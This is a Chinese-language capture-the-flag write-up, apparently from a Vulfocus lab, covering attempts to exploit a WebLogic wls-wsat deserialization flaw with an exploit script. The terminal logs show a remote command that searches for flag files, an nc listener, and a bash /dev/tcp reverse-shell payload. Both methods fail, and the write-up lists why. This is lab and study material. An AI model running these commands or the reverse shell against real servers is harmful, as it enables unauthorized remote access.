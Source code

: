**执行结果分析**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null > /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_user/console/console.war/flag_result.txt"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: find / -name '*flag*' 2>/dev/null > /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_user/console/console.war/flag_result.txt
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                       
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ curl http://10.37.133.3:7001/console/flag_result.txt

<html><head><title>302 Moved Temporarily</title></head>
<body bgcolor="#FFFFFF">
<p>This document you requested has moved temporarily.</p>
<p>It's now at <a href="http://10.37.133.3:7001/console/login/LoginForm.jsp">http://10.37.133.3:7001/console/login/LoginForm.jsp</a>.</p>
</body></html>
```

**❌ 方法一失败原因**:

- WebLogic控制台需要认证，返回302重定向到登录页面
- 写入的文件无法通过Web直接访问

**方法二：使用反向shell获取输出**

```bash
# 在攻击机上监听端口
nc -lvnp 4444

# 执行反向shell命令
python3 manual_exploit.py http://10.37.133.3:7001 "bash -i >& /dev/tcp/10.37.133.3/4444 0>&1"
```

**执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ nc -lvnp 4444

listening on [any] 4444 ...
^C
```

**❌ 方法二失败原因**:

- 反向shell连接未成功建立
- 可能是网络防火墙阻止了出站连接
- 或者容器网络配置限制了反向连接
